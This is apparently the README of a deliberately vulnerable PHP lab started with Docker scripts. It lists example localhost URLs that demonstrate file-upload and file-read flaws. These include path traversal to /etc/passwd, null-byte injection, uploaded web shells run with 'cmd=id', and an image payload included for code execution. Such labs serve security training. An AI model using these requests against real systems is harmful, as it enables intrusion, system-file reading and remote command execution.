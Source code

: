 Start docker: ./start.sh

Stop docker: ./end.sh

Examples for arbitrary upload in directory <strong>files</strong>


http://127.0.0.1:8080/read.php?file=hello.txt


http://127.0.0.1:8080/read.php?file=secret.txt


http://127.0.0.1:8080/child_directory/secret.txt


http://127.0.0.1:8080/read.php?file2=../../../../../../etc/passwd


http://127.0.0.1:8080/nullbyte.php?page=../../../../../../etc/passwd%00


http://127.0.0.1:8080/uploads/


http://127.0.0.1:8080/uploads/web_shell.php?cmd=id


http://127.0.0.1:8080/uploads/


http://127.0.0.1:8080/uploads/popular_file.php


http://127.0.0.1:8080/img/


http://127.0.0.1:8080/img/uploads/shell.pht?cmd=id


http://127.0.0.1:8080/img/


http://127.0.0.1:8080/img/uploads/image.png - success


http://127.0.0.1:8080/img/


http://127.0.0.1:8080/img/uploads/payload.png 


http://127.0.0.1:8080/nullbyte.php?page=img/uploads/payload.png%00






